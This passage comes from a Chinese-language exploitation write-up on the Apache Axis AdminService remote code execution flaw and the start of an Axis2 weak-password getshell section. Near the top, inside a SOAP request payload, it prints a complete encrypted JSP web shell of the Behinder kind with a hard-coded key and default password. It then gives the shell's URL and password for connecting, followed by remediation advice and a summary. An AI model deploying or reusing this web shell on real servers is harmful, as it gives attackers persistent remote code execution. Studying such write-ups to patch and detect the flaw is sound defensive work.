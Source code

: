 ```
<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
]]>
            </api:in0>
        </api:main>
  </soapenv:Body>
</soapenv:Envelope>
```

![image-20220910115606129](https://picgo-1301783483.cos.ap-nanjing.myqcloud.com/imageimage-20220910115606129.png)

一次写入不成功可能需要多次写入

使用冰蝎链接

```
http://192.168.0.78:8080/shell.jsp
rebeyond
```

![image-20220910115441502](https://picgo-1301783483.cos.ap-nanjing.myqcloud.com/imageimage-20220910115441502.png)

### 2.5修复建议

```
默认情况下service远程管理没开启，也即配置文件中enableRemoteAdmim为false，也就是只能本地localhost访问，这种情况下可以结合ssrf和xxe进行利用，所以比较鸡肋，但是安全无小事，对于命令执行漏洞还是应该重视。修复的话，关闭admin服务即可，具体方法注释掉web-inf/web.xml 里的AdminServlet，然后重启tomcat
```

### 2.6漏洞总结

```
漏洞分析篇幅不是很长，整体来说这个漏洞其实就是一个文件任意写入，但由于这个组件的一些特性。即通过server-config.wsdd来初始化和配置service，那么就可以写入一个恶意的service，到该文件中，进行调用实现RCE的效果。在复现漏洞中，发现需要/servlet/AdminServlet取消这个路由的注释，实际上在测试中发现，访问该路由会自动生成server-config.wsdd文件，我们需要的是该文件。有server-config.wsdd文件，/servlet/AdminServlet存不存在就显得没那么重要了。至此再一次佩服漏洞挖掘者。
```

补充

```
https://xz.aliyun.com/t/5513
https://www.cxyck.com/article/131848.html
```

## 3.Axis2后台弱口令上传arr包Getshell

### 3.1Axis2介绍

```
Axis2是下一代 Apache Axis。Axis2 虽然由 Axis 1.x 处理程序模型提供支持，但它具有更强的灵活性并可扩展到新的体系结构。Axis2 基于新的体系结构进行了全新编写，而且没有采用 Axis 1.x 的常用代码。支持开发 Axis2 的动力是探寻模块化更强、灵活性更高和更有效的体系结构，这种体系结构可以很容易地插入到其他相关 Web 服务标准和协议（如 WS-Security、WS-ReliableMessaging 等）的实现中。

Apache Axis2 是Axis的后续版本，是新一代的SOAP引擎。
```
